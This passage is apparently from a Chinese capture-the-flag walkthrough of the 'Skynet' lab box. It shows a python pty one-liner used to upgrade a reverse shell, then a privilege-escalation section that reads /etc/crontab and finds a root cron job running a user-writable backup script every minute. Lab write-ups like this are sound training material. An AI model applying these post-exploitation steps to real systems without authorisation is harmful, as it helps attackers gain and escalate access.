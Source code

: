 ![图片5](https://raw.githubusercontent.com/tac-eL/tacel.github.io/img/2024/7/12/5.png)

获取shell
生成交互式

```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```





<section style="margin: 10px auto; display: flex; align-items: center;"><section style="flex-shrink: 0;padding-right: 5px;box-sizing:border-box;"><section style="width: 127px;margin: 0 auto -35px;box-sizing:border-box;"><svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 209.35 75.07" style="display: block;" xml:space="default"><g id="图层_2" data-name="图层 2"><g id="图层_1-2" data-name="图层 1"><g><path d="M8.94,16.07l186.24-12,13.17,8-1.88,62H2.35Z" style="fill:#d3feff;fill-rule:evenodd"></path></g><g><path d="M8.35,27.07l-5,45h47" style="fill:none;stroke:#5790ff;stroke-width:6px"></path></g><g><path d="M145.35,7.07l49-4,12,8v43" style="fill:none;stroke:#5790ff;stroke-width:6px"></path></g></g></g></svg></section><section style="padding: 4px 15px;box-sizing:border-box;"><section style="font-size: 16px;color: #333333;text-align: center;"><strong>提权</strong></section></section></section><section style="width: 100%;box-sizing:border-box;max-width:100% !important;"><svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 288.23 21.01" style="display: block;" xml:space="default"><g id="图层_2" data-name="图层 2"><g id="图层_1-2" data-name="图层 1"><path d="M0,4S134-7.91,122.76,12.19,85.27,3.87,140.29,3,217.72,37.43,288,10.14" style="fill:none;stroke:#31f2dc;stroke-dasharray:4,2"></path></g></g></svg></section><section style="flex-shrink: 0;"><section style="width: 60px;box-sizing:border-box;"><img style="width: 100%; display: block;vertical-align:baseline;box-sizing:border-box;max-width:100% !important;" src="https://bcn.135editor.com/files/images/editor_styles/1793583331ff61201539b5d8fb5c2a71.gif" data-ratio="0.7322987390882638"></section></section></section>



```bash
$ cat /etc/crontab                                                                                        
cat /etc/crontab                                                                                          
# /etc/crontab: system-wide crontab                                                                       
# Unlike any other crontab you don't have to run the `crontab'                                            
# command to install the new version when you edit this file                                              
# and files in /etc/cron.d. These files also have username fields,                                        
# that none of the other crontabs do.                                                                     
                                                                                                          
SHELL=/bin/sh                                                                                             
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin                                         
                                                                                                          
# m h dom mon dow user  command                                                                           
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh                                                
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly                                       
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )       
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )      
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )     
#                                                                                                         
$

```
